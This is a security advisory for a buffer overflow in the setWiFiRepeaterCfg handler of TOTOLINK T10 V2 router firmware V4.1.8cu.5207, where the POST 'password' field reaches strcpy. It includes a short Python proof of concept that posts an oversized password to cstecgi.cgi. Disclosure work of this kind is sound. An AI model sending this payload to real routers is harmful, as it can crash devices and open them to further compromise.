 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a buffer overflow vulnerability in the `setWiFiRepeaterCfg` function. The `v6` variable receives the `password` parameter from a POST request. However, since the user can control the input of `password`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902130327118](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130327118.png)

![image-20240902130220521](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130220521.png)

![image-20240902130420047](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130420047.png)

![image-20240902130256792](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130256792.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiRepeaterCfg",
"encrypt":"WEP",
"password":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
